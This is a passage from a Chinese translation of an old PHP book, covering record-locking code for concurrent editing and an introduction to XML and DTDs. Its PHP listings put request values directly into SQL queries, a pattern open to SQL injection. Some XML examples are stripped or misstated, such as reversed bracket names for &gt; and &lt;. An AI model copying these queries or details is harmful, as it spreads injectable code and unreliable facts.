        echo "<p>点击<a href=\"$PHP_SELF\">此处</a> ";
        echo '进行进一步的表维护。</p>';
        exit();
    }

    $record = cet_update(array(
        'dbname'    => $dbname
        ,'table_name' => $table_name
        ,'key_value'  => $arr_request['key_value']
        ,'name'       => $arr_request['name']
        ,'phone'      => $arr_request['phone']
    ));

    echo '<p>记录已被更新。</p>';
    echo "<p>点击<a href=\"$PHP_SELF\">此处</a> ";
    echo '进行进一步的表维护。</p>';
    exit();
}

function do_edit_action() {
    global $arr_request;
    global $dbname;
    global $table_name;
    global $db;
    global $auth;
    global $PHP_SELF;

    cet_read(array(
        'dbname'     => $dbname
        ,'table_name' => $table_name
        ,'key_value'  => $arr_request['key_value']
        ,'lock'       => 'yes'
    ));

    cet_heading();

    cet_display_form(array(
        'key_value'     => $arr_request['key_value']
        ,'name'         => $db->f('name')
        ,'phone'        => $db->f('phone')
        ,'bgcolor'      => 'yellow'
        ,'button'       => '保存更改'
        ,'cancel_button' => 'yes'
        ,'next_action'  => 'update'
    ));

    $current_date = date('Y-m-d H:i:s');
    $key_value = $arr_request['key_value'];
    $uname = $auth->auth["uname"];

    $db->query("
        INSERT INTO
            locks
            (
                table_name
                ,user_name
                ,record_key
                ,dte_created
            ) VALUES (
                'concurrent'
                ,'$uname'
                ,'$key_value'
                ,'$current_date'
            )
    ");

    exit();
}

function do_insert_action() {
    global $arr_request;
    global $dbname;
    global $table_name;
    global $PHP_SELF;

    cet_insert(array(
        'table_name' => $table_name
        ,'dbname'	=> $dbname
        ,'name'		=> $arr_request['name']
        ,'phone'	=> $arr_request['phone']
    ));

    echo '<p>记录已被插入。</p>';
    echo "<p>点击<a href=\"$PHP_SELF\">此处</a> ";
    echo '进行进一步的表维护。</p>';

    exit();
}

// 取消编辑需要删除锁。
function do_cancel_edit_action() {
    global $arr_request;
    global $db;
    global $table_name;
    global $PHP_SELF;

    $key_value = $arr_request['key_value'];

    $db->query("
        delete from
            locks
        where
            table_name = '$table_name'
            and record_key = $key_value
    ");

    header("Location: $PHP_SELF");
}

function cet_heading() {
    global $auth;
    $current_date = date('Y-m-d H:i:s');

    echo '<html><head>';
    echo '<title>cet: 并发编辑测试</title>';
    echo '</head><body><font size="2">';
    echo '<a href="end_session.php3">登出</a>';
    echo '</font><br><h1>并发编辑测试<br>';
    echo '<font size="2">';
    echo "服务器时间：$current_date<br>";
    echo '您已登录为 ';
    echo $auth->auth["uname"];
    echo '</font></h1>';
}
?>

**清单 15.4** common.inc

```php
<?php // common.inc

$table_name = "concurrent";

class phpbook_db extends DB_Sql {
    var $classname = 'phpbook_db';
    var $Host    = 'localhost';
    var $Database = 'php_book';
    var $User     = 'user01';
    var $Password = '';
}

class phpbook_session extends Session {
    var $classname = 'phpbook_session';
    var $cookiename   = '';
    var $magic        = 'chocolate';
    var $mode         = 'cookie';
    var $fallback_mode = 'get';
    var $lifetime     = 0;
    var $database_class = 'phpbook_db';
    var $database_table = 'active_sessions';
    var $gc_probability = 5;
}

class phpbook_user extends User {
    var $classname = "phpbook_user";
    var $magic         = 'chocolate_chips';
    var $database_class = "phpbook_db";
    var $database_table = "active_sessions";
}

class phpbook_auth extends Poe_Auth {
    var $classname = 'phpbook_auth';
    var $database_class = "phpbook_db";
    var $database_table = "auth_user";
}

page_open(array(
    'sess' => 'phpbook_session'
    ,'user' => 'phpbook_user'
    ,'auth' => 'phpbook_auth'
));

// 声明请求数组，该数组保存基于URL的（GET）和基于表单的（POST）参数。
$arr_request = array();

// 将URL和表单参数移入请求数组。表单参数优先于URL参数。
// 此外，所有键都转换为小写。
if (count($HTTP_GET_VARS)) {
    while (list($key, $value) = each ($HTTP_GET_VARS)) {
        $arr_request[strtolower($key)] = $value;
    }
}
if (count($HTTP_POST_VARS)) {
    while (list($key, $value) = each ($HTTP_POST_VARS)) {
        $arr_request[strtolower($key)] = $value;
    }
}

function affy_error_exit($msg) {
    $errno = mysql_errno();
    $error = mysql_error();
    echo '<html><head><title>错误</title></head><body>';
    echo $msg;
    echo "<br>错误：($errno) $error<br>";
    echo '</body></html>';
    exit();
}

?>
```

## 总结

在本章中，您了解到多用户系统存在一个固有问题，即一个人可能覆盖另一个人的更改。为了避免这个问题，需要跟踪正在编辑的记录，以便两个人不能编辑同一条记录。

在提出问题之后，编写了一个小型应用程序来演示它。该应用程序允许任何人在任何时候编辑记录。图 15.1 显示了一个用户的数据（在编辑表单中）已被另一个用户的更改使其失效。

接下来，我们讨论了跟踪哪些记录正在编辑的方法，以及演示应用程序第二版的一系列要求。

最后，清单 15.2 到 15.4 展示了新应用程序。此应用程序仅在未进行编辑时显示每条记录的编辑和删除选项。

下一章 "XML" 将讨论可扩展标记语言（XML），它的原理以及如何使用它。

本电子书仅供您个人使用。您可以打印一份电子书供个人使用。不允许任何其他用途。复制、分发或制作本电子书的衍生作品违反许可协议和国际版权法。窃取知识产权会伤害每个人，包括作品的创作者。请不要鼓励盗版；只通过合法渠道购买书籍，并在购买时支付相应的销售税。感谢您的合作。

以上规定不适用于此处包含的开源软件代码片段，这些代码片段是根据相关的开源许可条款授权的，可在本电子书附带的说明中找到。4D, Inc. 不要求您同意这些条款。

### XML

XML 就像打了类固醇的 HTML。XML 不像 HTML 那样描述网页，而是描述信息。XML 的每次使用都由文档类型声明（DTD）控制，这是其改变世界的巨大力量所在。《Just XML》一书的作者 John E. Simpson 对本章贡献巨大。

与 HTML 一样，*可扩展标记语言*（XML）基于标记，使其能够施展魔力。**标记**只是一个文本标记——通常是一对标记——它向下游应用程序发出信号，表明它可能或必须在文档的特定点（或对于标记对，在某个范围内）执行某些操作。这些标记用特殊字符（尖括号，即 `<` 和 `>` 字符）与周围文本分隔开。例如，在 HTML 中，`<br>` 标记表示“在此处插入换行符”，而 `<i>` 和 `</i>` 标记对表示将这两个标记之间的所有内容渲染为斜体。

XML 源自数十年前的*标准通用标记语言*（SGML）。SGML 是一个庞大而复杂的 ISO 标准，通常用于出版、国防和其他大型行业；然而，正是其庞大的规模和复杂性，使得将 SGML 作为较小企业的标准几乎不可能。（另一个使 SGML 对小公司不切实际的因素是，大多数 SGML 软件——编辑器、浏览器等——相当昂贵，通常达到五到六位数。）

XML 旨在解决 HTML 固有的一些问题，我们稍后会看到，方法是从 SGML 标准中剥离除最常用和最易实现功能之外的所有内容。关于 SGML 的标准参考著作超过 500 页；相比之下，完整的 XML 规范只有大约 20 页。

最重要的是，XML 与 SGML（而不是 HTML）相似，因为它实际上不是单一的标记语言。它不包含内置标记。相反，它规定了用户可以定义自己的专用标记语言（分别称为“XML 应用程序”、“XML 方言”、“XML 变体”等）的规则。因此，XML FAQ 在对这一概念进行富有想象力的发挥时，列出了“音乐、化学、电子、登山、金融、冲浪、石油地质学、语言学、烹饪、编织、恒星制图、历史、工程、养兔、数学等”作为可能的定制 XML 应用程序。

## 为什么选择 XML？

回答“为什么选择 XML？”最简单的方法是将其重新表述为“为什么*不*选择 HTML？”这可能看起来是个奇怪的问题；随着每年新增数十万个网页，


拥有数千万用户的互联网，网页浏览理应相当流畅。除了偶尔需要的界面改进、新标签等，你可能认为HTML并不需要额外帮助，对吧？

其实不然。HTML不适合用于健壮的文档和数据管理工作，主要有四个原因：

- 它将结构元素与显示元素混为一谈
- 它给予浏览器厂商过多的解释余地
- 它不适用于其他媒体，尤其是印刷品
- 作为数据交换媒介，它几乎毫无用处

正如接下来几节所示，XML解决了所有这些缺陷。

## 结构与显示的混合

“段落”究竟是什么？向语法学家提问会得到一个答案；向排版工提问又会得到另一个答案。然而，在这两种截然不同的答案中，都隐藏着许多隐含假设，掩盖了无数更深层次的问题。引言段落与文档中间段落或总结段落是否相同？小说中的对话段落与烹饪书中的段落是否相同？字典中出现的单词定义算是一个段落吗？假设我从流行杂志文章中复制粘贴一段文字到我正在撰写的技术参考书中，它还是同一种“段落”吗？

HTML的优点之一——也是其缺点之一——在于它将所有这些含义扁平化为一个单一标签`<p>`。默认情况下，浏览器渲染给定HTML段落的方式与其他任何段落相同。这很简洁，因为很简单。但对于任何超出最通用现实世界应用场景的情况，这又是极其不够的，因为实际应用必须能够解答所有那些细微的小问题。

HTML的维护者——万维网联盟（W3C）——多年来通过各种方式解决了这个问题。他们提供了其他标签，如`<div>`和`<blockquote>`，这些标签执行某些与段落相似的功能，但方式略有不同。他们还发明了一种机制——*样式表*，允许（例如）侧边栏中的段落与网页正文中的段落以不同方式渲染。

但问题的根源依然存在：HTML“段落”既是结构单位又是显示单位，其结构和显示特征都完全通用。

### 注意

> 顺便说一句，这个问题不仅限于段落。用浏览器查看源代码窗口查看任何网页，你都会看到同样的情况，即使它不包含任何`<p>`标签：一堆结构元素上覆盖着显示特征，就像船底的藤壶一样。

## 浏览器差异

由于通用HTML标记本身*是*通用的，它并不强制要求，例如，每段的第一行必须缩进，或在上一段的最后一行之后双倍行距。当你指定图片或表格左对齐时，浏览器厂商可以自由决定页面的“左边缘”是正好在窗口左边缘，还是缩进几个像素。

作为开发者，这些松散细节可能对你意义不大。但互联网已不再是这些细节可以被忽视的地方。大公司向广告公司和网页设计师支付大笔费用，以确保例如公司标志不会与公司名称重叠，而是恰好偏移一个单位的空间（两个单位绝对不行！）。设计师可能被几十年来处理印刷媒体的经验宠坏了——印刷媒体确实允许如此精细的页面元素定位——他们不想被告知这不可能，更别提说这不重要了。

请注意，即使设计师使用样式表来规定所有段落具有某些显示特征，这些特征有时也可能与浏览器渲染给定标签时固有的特征冲突。浏览器应如何解决这些冲突，*并未*由W3C或其他任何人规定。

更糟的是，HTML随着时间的推移获得了各种“合法”扩展——实际上是变通方案——因为浏览器设计师们尝试解决设计者和用户需求的方案。这些扩展范围从备受诟病的Netscape`<blink>`标签（用于使文本闪烁），到插件的使用（这些插件在一个浏览器中有效，而在另一个中无效）。

## 不适用于非Web用途

HTML专门针对在图形用户界面环境下的计算机显示器上查看而优化。这种特定媒介背后内置的假设包括，例如，如果文档对于给定显示器分辨率来说显示过长，滚动条将允许查看其余部分——没有像印刷品那样的固有“翻到下一页”机制。当用户打印网页时，他们得到的硬拷贝不仅包含页面的真实内容，还包括图形和导航元素，如按钮、菜单和其他“装饰”。带宽考虑要求将单篇长文档分割成多个“页面”（实际上是单独的HTML文档）以用于网络，这反过来使得将它们作为单个单元打印变得繁琐或不可能。等等。

## 数据交换不切实际

假设你是一家计算机组件制造商。你在网络上零售产品给消费者，并通过目录向那些偏好此格式的客户销售。你还批发给增值经销商（VARs），并从数十家供应商采购原材料和子组件；供应链中的所有这些其他环节都使用自己的技术——从开源到“行业标准”，再到专有技术——来存储和操作他们的企业数据。最重要的是，*你公司内部*的不同组织可能使用不同的工具：Microsoft Access、IBM DB2、Oracle、Java、Perl、制表符和逗号分隔的平面文件，等等。

为什么你要将所有这些用于数十种不同目的的数据，保持在数十种不同的格式中？如果能使用某种简单、易于处理的通用格式来处理它们所有……比如，HTML之类的，岂不是很好？

如果你尝试这样做，请准备好你的听众会尖叫着跑出会议室。当你将产品名称放入表格的一个单元格，而将零售价、批发价、商品编号等放入其他单元格时，你已经剥离了数据的任何意义：它都使用相同的旧`<td>`（表示“表格数据”）标签进行标记。你纯HTML的“策略”不仅会让你失去客户和供应商的尊重，还会失去他们的*业务*。

## XML的解决方案

在许多方面，XML颠覆了摇摇欲坠的HTML苹果车。因为XML标准下没有内置标签，浏览器无法代表用户做出任何关于给定标签默认渲染方式的决定。XML文档中的标签必须以结构化方式出现，完全嵌套在其他标签内或之后，并且由于这些标签都没有任何固有的显示特征，文档完全是关于*结构*（标签和标签对之间的关系）和*内容*（出现在标签对内的文本）。

最后——最重要的是——由于没有内置标签，XML文档类别的开发者可以自由构建有意义的标签，从而大大简化了与其他应用程序交换数据的任务。

## HTML和XML之间的差异

在深入具体细节之前，了解XML与HTML明显不同的几个总体方面可能很有用。以下是简要列表：

- **平衡标签**——网页浏览器对HTML标签的嵌套处理众所周知地随意。如果一个起始`<b>`标签后跟一个起始`<i>`，但结束`</b>`出现在结束`</i>`之前，浏览器会愉快地忽略这两个标签的重叠范围。相比之下，XML处理器则完全拒绝这种做法。
- **无非显著空白**——HTML将连续出现的空白（空格、制表符、换行符）扁平化为一个空格。XML则假设文档作者有意在空白处放置空白，因此将其全部视为“有意义的”。（XML处理器在坚持这一点的程度上有所不同，并且也有方法可以覆盖此正式要求，如本章后面所述。）
- **区分大小写**——在基于标准HTML的网页中，你可以根据自己的喜好和使用Shift键的倾向，用大写、小写或混合大小写编写标记。另一方面，XML将`<shopkeeper>`这样的标签视为与`<ShopKeeper>`、`<SHOPKEEPER>`等完全不同的标签。


+   - **Unicode**—如果你是美国、英国或澳大利亚的开发者，这可能看起来不是什么大事，但在其他地方，这确实是个非常重要的问题。现在，不仅是文档内容，甚至标记本身，都可以基于完整Unicode标准下的*任何*语言编码。虽然标记中使用的标点符号——如 <、=、> 等——保持不变，但XML开发者可以在标签和属性名称中使用西里尔文、汉字、希伯来文以及世界上几乎所有其他字符集。

## **XML解析器的角色**

XML规范大量使用“XML处理器”一词，作为特定类型软件的同义词。这种软件读取XML文档，解释标签嵌套的合法性，可能还会规范化空白符等等：简而言之，就是一个解析器。（注意，在本章中，“XML处理器”的使用稍显宽泛。）

当然，HTML软件也使用解析器。但由于HTML规范的宽松性，这些解析器极其难以编写；例如，它们必须允许所有可能的嵌套不当或不平衡标签的变体。相比之下，XML规范作者们一个传奇性的目标是，XML解析器应该只需要一个研究生几天的工作量就能完成。在现实世界中，事情并没有那么完美地发展，但XML更严格的规则确实大大简化了软件开发者的工作。

当解析器运行时，假设标记是规范的，它会返回两种类型的数据给上层处理器。首先，它可以触发一个序列化的事件链：“Book标签开始...Book标签的版权属性值为'1999'...Chapter标签开始...Section标签开始...Content标签开始...Content标签的内容是：'Jack and Jill'...”等等。这是处理XML（或任何其他结构化文本）的一种高效方式。另一方面，它对上层处理器的要求更高，因为上层处理器通常需要一次处理整个文档树分支，而不是构成分支的序列化细节。

更近期的解析器利用了相关规范——文档对象模型（DOM）来解决这个问题。DOM解析器返回给调用程序的是一个完整的树，或者树的一个分支，可以作为一个离散但完整的对象进行操作。使用DOM解析器的缺点通常在于处理多个（可能相当大的）对象时需要较大的内存。

无论使用哪种情况，请记住，解析器是基础性的、基本上不可分割的软件模块。偶尔，XML相关邮件列表的新手会声称他或她正在寻找（比如）一个解析器来以某种特定方式“显示XML”，这会引起列表老手们几乎能听到的叹息。解析器只读取和解析XML，它们不处理数据或显示其中包含的数据。现在你明白了！

## 核心XML

在前面的几页中，你可能已经注意到“文档”一词被大量使用，作为描述单个、不可分割的XML单元的方式。这并不是暗示XML仅仅是一个文档管理或桌面出版工具（尽管它可以做这些事）。相反，“文档”这个术语是SGML遗留下来的——SGML*旨在*服务于这两个目的。在实践中，所谓的XML文档可以是从传统的“文档”到数据库的任何东西。

那么：在这些XML“文档”中，你能找到什么？

## 标记和文本

在最粗略的分析层面——仅凭肉眼评估——文档只包含文本，别无他物。当然，HTML（和SGML）也是如此。网页中所有炫目的图像、多媒体和其他装饰性元素实际上并不在文档本身中；相反，它们通过特殊格式的文本——即特殊标签——被引用。这些标签和其他标记元素（所有非文档内容本身的东西）可以分为六大类，其中大多数（但不是全部）你会从HTML中熟悉。（第七类，表示法，将在介绍文档类型定义的部分中涵盖。）

## 元素

*元素*简单来说就是包含在标签内或一对匹配的开始和结束标签之间的所有内容。这可以包括纯文本和任何其他类型的标记。如果任何其他元素包含在给定元素的范围内，它们必须被*完全*包含。即，考虑以下HTML片段：

```
<b>This is bold text, and <i> this is italic.</b></i>
```

请注意，结束标签导致元素嵌套不当；呈现斜体的标签`<i>`开始时在呈现粗体的标签`<b>`的范围内，但结束时却在呈现粗体的标签范围*之外*（由结束标签`</b>`表示）。如上所述，HTML浏览器接受这一点；然而，XML处理器会强烈抱怨并拒绝该文档。

XML还引入了空元素或空标签的概念。这种元素在开始和结束标签之间不包含任何内容；其“内容”可以说是内置于标签本身之中。HTML中与XML空标签类似的例子是`<br>`（换行标签）和``（包含指向图形的链接）。在XML中，你可以用两种方式之一来编码一个空标签：

```
<tagname></tagname>
或
<tagname/>
```

因此，如果某种特定风格的XML有一个``标签，它在文档中可以以以下形式出现：

```
</img>
或

```

用于终止空元素的特殊“/>”形式是XML独有的。

## 属性

与HTML一样，标签可以包含*属性*——为标签的给定出现分配属性的名称/值对。在下面的XML标签中，属性（等号前）及其值（等号后）以粗体显示：

```
<customer id="ab647389">...</customer>
```

除了你在HTML中熟悉的单值属性形式外，XML属性也可以是多值的（由空格分隔）。例如：

```
<customers id="ab6473 f13450 pd0993">...</customers>
```

给定属性可能包含什么值、是否必须提供属性、是否有默认值，都可以由这类文档的开发者在称为*文档类型定义*的一组规则中定义。（DTD将在本章后面详细介绍。）不过，目前DTD无法以更复杂的方式（如按数据类型或数字范围）约束属性的值。

每个XML文档，无论是否基于DTD，都可以在任何元素中包含两个内置属性中的一个或两个：`xml:lang`和`xml:space`。这两个属性的有趣之处在于，它们的效果会“向下传递”给包含它们所分配元素的所有元素。

`xml:lang`属性标识元素内容所使用的人类语言（不是机器语言！）。`xml:lang`属性的值必须是标准的ISO语言双字母标识符之一，例如“EN”代表英语，“DE”代表德语。以下是在假设的XML方言中使用`xml:lang`的几个示例：

```
<socialtalk xml:lang="EN">
  <greeting>Hello</greeting>
  <closing xml:lang="IT">Arrivederci</closing>
</socialtalk>
```

在这个例子中，第一个`xml:lang`表示`socialtalk`元素范围内的任何元素内容都应被视为英语，除非明确覆盖。因为greeting元素没有包含`xml:lang`属性，处理器假定其内容为英语。第二个`xml:lang`覆盖了这个默认值——仅在这个closing元素的范围内——表明其内容为意大利语。

`xml:space`属性用于告诉XML处理器*不要*规范化元素内容中的空白符（空格、制表符、换行符）。（HTML将所有空白符规范化为空格。）此属性可以取两个值中的一个：“default”（意思是，“像你通常那样处理所有空白符”）和“preserve”（意思是，“无论你通常做什么，对于*这个*元素，保留空白符原样不变”）。例如：

```
<poetry xml:space="preserve">I think that I shall never see
  a poem lovely as a tree.</poetry>
```

这指示XML处理器保留`see`之后的换行符以及第二行开头的空格。

请注意，`xml:space="default"`只有在指定了`xml:space="preserve"`的其他元素的上下文中使用时才有意义。例如，在我们的诗歌示例中，包含在诗歌元素中的散文题词可能如下所示：

```
<poetry xml:space="preserve">
<epigraph xml:space="default">Nearly everyone
recognizes the opening lines of Joyce
Kilmer's most famous poem.</epigraph>
I think that I shall never see
  a poem lovely as a tree.</poetry>
```

尽管题词中`everyone`一词后有一个换行符，但XML处理器可能（由于`xml:space="default"`）要么保留该换行符，要么忽略它，这取决于其通常的行为。

## 实体

XML文档中的实体提供了一种引用文档范围外某些事物的方式。例如，由于文档由字符组成，因此文档本身字符集之外的任何其他Unicode字符集中的字符都必须通过实体来表示。甚至整块的文本，甚至包含样板文本的整个文档或文件，都可以通过使用指向它们的实体引用来合并到文档中。

你可能从HTML中熟悉了实体的概念（例如，`&amp;`实体代表“与”符号），在XML文档中，它们的标记方式相同：一个

and 符号，后跟实体名称或一串数字，代表 Unicode 字符集中的特定字符，并以分号结尾。

如果文档有 DTD，则所有实体名称必须在其中定义。如果没有 DTD，XML 规范默认提供五个内置命名实体：`&amp;`（表示 and 符号）；`&apos;`（撇号或单引号）；`&gt;`（大于号或左尖括号）；`&lt;`（小于号或右尖括号）；以及 `&quot;`（双引号）。这些字符被选为内置实体是因为它们可能以某种方式混淆 XML 处理器。实际上，大多数 XML 处理器只会对字面 and 符号（否则处理器会认为它表示实体引用的开始）和左尖括号（表示新元素名称的开始）产生问题。

如果文档包含许多这类特殊字符，其文本可以包含一个或多个*标记段*（稍后解释），以简化数据输入并增强可读性。

与 HTML 一样，XML 文档也可以包含单个字符，其表示方式超出了用于创建文档的字符集范围。例如，如果文档是"手工"构建的，使用只能创建 US-ASCII 字符的简单文本编辑器，通常你无法表示 ü，即德语单词中可能出现的"带变音符号的 u"。为此，文档作者可以在所需位置使用实体引用，以通常的 `&` 开头和 `;` 结尾，中间夹着一个井号（`#`）和一个表示该特殊字符 ISO 等效值的数值，如下所示：

```
&#252;
```

或者，该数值可以用十六进制表示，在井号后加一个 "x"。对于 ü 字符，这将是：

```
&#xFC;
```

实体的重要性可能不仅在于表示特殊字符，它们还可以用作整个字符串甚至整个文本文件（包括标记，有一定限制）的简写形式。例如，用于表示各种法律文件的 XML 方言可能看起来像这样：

```
<legaldoc>
  <title>&will;</title>
  <principal>&firstpart;John Alden</principal>
  <principal>&secondpart;Priscilla</principal>
  <prologue>&willboilerplate</prologue>
  ...
</legaldoc>
```

在这里，实体 `&will;` 可能在 DTD 中定义为短语"Last Will and Testament"（最后遗嘱和遗言）的简写；`&firstpart;` 表示"Party of the First Part"（甲方）；`&secondpart;` 表示"Party of the Second Part"（乙方）。`&willboilerplate;` 实体可能指向 DTD 中定义的整个段落，或指向处理器要读取并在此点合并到文档中的整个外部文档。

**注意**：关于这类"快捷"实体引用的使用有两点注意事项：首先，与大多数其他实体一样，除非文档有关联的 DTD，否则它们根本无法使用。其次，某些处理器根本不处理外部实体。

## 标记段（Marked Sections）

从 SGML 派生的标记语言给软件带来了一个特殊挑战：如何区分表示标记开始的特殊字符（如左尖括号（`<`）和 and 符号（`&`））与这些字符的正常使用。例如，在基于 Web 的 HTML 教程中，浏览器如何知道 `<b>` 标签何时表示"在此处插入换行"，何时只是要逐字显示的示例代码？

在 HTML 中，当你需要标记包含许多此类特殊字符的长段文本时，你有两个选择。首先，你可以将所有出现的这些字符编码为实体引用。例如，HTML `&gt;` 实体在该点向文本中插入一个字面的"大于号"字符 `>`。或者其次，你可以将整个文本段落（包括特殊字符）包含在 `<pre>` 标签（或旧的 `<code>` 标签）中。

如前所述，XML 允许你使用第一种选择。当存在许多此类字符时，这很繁琐（而且结果难以阅读）；不幸的是，由于 XML 方言没有内置标签，你无法转而使用第二种选择。

XML 规范通过提供一种特殊的标记形式来解决这个问题，用以界定所谓的标记段。标记段以以下字符开始

```
<![CDATA[
```

并以以下字符结束

```
]]>
```

这些特殊字符告诉 XML 处理器："不要将其中任何碰巧*看起来像*标记的内容解释为标记。"标记段的一个简单示例可能是

```
<![CDATA[(1 + 1) < (2 * 5) > 4]]>
```

## 处理指令（Processing Instructions）

*处理指令*（简称 PI），顾名思义，提供命令、参数或其他指令，可能被 XML 解析器本身以外的某些应用程序使用。它们的确切内容无法由 XML 规范定义，因为下游应用程序甚至可能不是 XML 感知的。不过，所有 PI 的一般形式是相同的：

```
<?target pseudoattributes ?>
```

*目标*（target）是下游应用程序预期接收的特定"信号"；*伪属性*（pseudoattributes，看起来像普通的属性-值对）是一个或多个命令、属性等，在该应用程序的上下文中有意义。例如，假设 XML 将被某个支持 XML 的文字处理器消化和处理。这种假设应用程序的 PI 可能看起来像这样：

```
<?xmlwp pagebreak="yes" header="no" ?>
```

同样，这只是一个假设示例；PI 可以采取的确切形式由下游应用程序的需求决定。

> **注意** 你脑海中是不是刚亮起一盏灯？是的，本书中使用的 `<?php ... ?>` 标签可以被理解为处理指令！

## 注释

XML 注释的形式与 HTML 中的完全相同。它们以

```
<!--
```

开始，以

```
-->
```

结束。

对注释的唯一约束是，它们不能包含两个或更多紧邻的连字符。

## 整体文档结构

完整 XML 文档中的所有标记和文本被组织为三个部分：

- 可选的文档序言
- 文档根
- 可选的文档尾序

到目前为止，你主要关心的是处理文档根，其中包含构成文档真正内容的所有元素和属性（以及可选的 PI 和注释）。

## 文档序言

文档的这部分可能包含注释和 PI，例如指向样式表的链接。更重要的是，它包含两个特殊声明：XML 声明和文档类型声明。

## XML 声明

*XML 声明*采用以下形式：

```
<?xml
   version="versionnumber"
   encoding="encoding"
   standalone="yesorno"
?>
```

请注意，虽然这看起来像 PI，有时也被称为 PI，但技术上它完全是另一种东西——PI 是针对 XML 解析器以外的应用程序的，而 XML 声明是专门为 XML 解析器使用的。

XML 声明的三个伪属性中，版本号是最常见的；它指示该文档符合哪个版本的 XML 规范。由于到目前为止只有一个版本，你可以可靠地预期目前这是"1.0"。

encoding 伪属性标识本文档中标记和文本使用的字符编码。该伪属性的值必须是标准 ISO 编码之一，如 US-ASCII、UTF-8 等。

最后，standalone 伪属性断言该文档是完全自包含的——包括你的应用程序需要了解的关于文档结构的所有信息——或者关于结构的信息在称为*文档类型定义*（DTD）的外部资源中详细说明。由于多种原因，XML 社区的共识是 standalone 伪属性是冗余的——有更好的方式来指示文档对 DTD 的依赖。因此，你可以合理地预期 standalone 将完全不存在。

## 文档类型声明

*文档类型声明*（有时称为 *doctype 声明*），顾名思义，告诉 XML 处理器这是哪种类型的 XML 文档——特别是，这是哪种特定的 XML 方言。它采用以下形式：

```
<!DOCTYPE name externalDTDlocation internalDTDsubset>
```

*name* 是 doctype 声明的唯一必需部分，标识文档的根元素。因此，它向 XML 处理器发出信号："当你遇到这个标签时，你就知道序言处理完成了"，以及"当你遇到相应的结束标签时，要么期待尾序，要么停止处理"。

至于两个可选部分——*externalDTDlocation* 和 *internalDTDsubset*——它们提供有关文档预期结构的信息：它可以包含哪些元素，什么

## 合法文档与良好格式文档

这是 XML 中一个非常重要的概念，标志着它与 SGML 和 HTML 的分道扬镳。*良好格式*的 XML 文档遵循 XML 规范中规定的一般原则，例如所有标签必须正确地相互嵌套。而*合法*文档不仅格式良好，还遵循相关 DTD 中规定的特定原则。你已经知道如何将 DTD 与文档关联起来（参见前面关于文档类型声明的讨论）；DTD 中具体*包含*什么，则是下一节的主题。

## 文档类型定义（DTD）

DTD 与典型的 XML 文档一样，只是一个文本文件。它的内容看起来甚至有点像 XML——有大量的 `<` 和 `>` 符号。但 DTD 并不是真正的 XML。它包含的只是一组形式化规则，用于定义特定方言中 XML 文档的结构，以及在一定程度上的内容。

关于如何创建和解读 DTD，已经有整本整本的专著，因此在这里不可能面面俱到。不过，我们可以探讨一些基本原则。

## 通用形式

DTD 由一系列规则组成，通用格式如下：

```
<!keyword constraints>
```

其中 *keyword* 是 **ELEMENT**、**ATTLIST**、**ENTITY** 或 **NOTATION** 之一（分别对应元素、属性、实体和表示法的规则）。constraints 部分的内容因关键字不同而异。

## ELEMENT 关键字

在合法 XML 文档中，每个元素——即每个标签——都必须在文档的 DTD 中有对应的 `<!ELEMENT…>` 定义。元素定义的通用格式为

```
<!ELEMENT elementname (contentmodel)occurrencesflag >
```

`elementname` 是标签名，不包含 `<` 和 `>` 字符，就像它在合规文档中可能出现的那样。（注意，在 XML 中与 HTML 不同，所有元素、属性和其他标记组件都是区分大小写的。像 `<Street>` 这样的标签与 `<STREET>`、`<street>` 等完全不同。）

至于 `contentmodel`，它定义了在合规文档中该元素的某一出现位置内允许包含哪些类型的内容。一个常见的内容模型表示"此元素可以包含纯文本"，使用保留术语 `#PCDATA` 来指定，例如：

```
<!ELEMENT street (#PCDATA) >
```

在此定义下，以下 XML 片段都是合法的：

```
<street>123 W. Park Avenue</street>
<street>MAIN</street>
<street>123 W. Park Avenue
Apartment B</street>
```

**注意**

注意最后一个示例中的换行符。

CDATA/标记部分可以出现在 `#PCDATA` 元素内容中的任何位置。

除了纯文本，元素还可以包含其他元素——每个元素都必须在 DTD 中有自己的定义。例如，考虑以下元素定义：

```
<!ELEMENT streetaddress
    (housenumber, streetname, streettype) >
<!ELEMENT housenumber (#PCDATA) >
<!ELEMENT streetname (#PCDATA) >
<!ELEMENT streettype (#PCDATA) >
```

`streetaddress` 元素的**内容模型**表明，它**必须包含**一个 `housenumber` 元素、一个 `streetname` 元素和一个 `streettype` 元素，且按此顺序排列，例如：

```
<streetaddress>
  <housenumber>123</housenumber>
  <streetname>W. Park</streetname>
  <streettype>Avenue</streettype>
</streetaddress>
```

注意，逗号在内容模型中用于表示序列。也可以使用竖线/管道字符 `|`，它充当 OR 运算符。例如：

```
<!ELEMENT autobody (sedan | coupe | wagon | minivan) >
```

这样，给定的 `autobody` 元素可以包含 `sedan`、`coupe`、`wagon` 或 `minivan` 元素中的任意一个，但只能是这四个选项之一。

除了在内容模型中列出特定元素外，DTD 开发者还可以指定各种替代内容模型，如下所示：

```
<!ELEMENT cityregion
((cityname, state) | (cityname, province)) >
```

这表示 `cityregion` 元素要么由一个 `cityname` 后跟一个 `state` 组成，要么由一个 `cityname` 后跟一个 `province` 组成。

在上面 `ELEMENT` 定义的基本形式中，请注意还有一个出现标志。这是一个可选的单字符指示符，表示指定的内容模型可以出现的次数，可以是以下之一：

-   `+`——可以出现一次或多次
-   `?`——可选的；如果出现，只能出现一次
-   `*`——可选的；可以出现任意次数

这些出现标志值也可以应用于内容模型的各个部分（`#PCDATA` 除外）。如果没有出现标志，则有效出现次数有且仅有一次。

与序列（逗号）和可选性（竖线/管道）运算符配合使用，并通过括号对内容模型的部分进行分组，出现标志使得相当精细复杂的内容模型成为可能。例如：

```
<!ELEMENT appointment
((dayofweek?, month?, day?, year?, time?)+,
place, (attendee)*)+ >
```

这允许用于安排预约的各种可能的文档形式，包括对日期、地点和与会者等信息的不同详细程度。

### 特殊情况 #1：空元素

DTD 的设计者可以使用特殊关键字 **EMPTY** 来指定元素的内容模型不包含任何内容。例如：

```
<!ELEMENT website (EMPTY) >
```

表示包含 Web 站点元素的文档，在起始 `<website>` 标签和结束 `</website>` 标签之间不能有任何文本或其他元素。（或者，文档也可以直接使用特殊的 `<website/>` 语法。）

### 特殊情况 #2：混合内容

有时，可能需要元素包含文本内容或元素内容，甚至二者混合。HTML 中最常见的例子可能是 `<p>` 标签；在段落中你可以有纯文本、斜体文本、粗体文本、强调文本、锚点（"href"）标签等，而且它们可以按任意顺序出现。要定义这样的元素，DTD 设计者使用所谓的*混合内容模型*，如下所示：

```
<!ELEMENT review (#PCDATA | emph | url | linebreak )* >
```

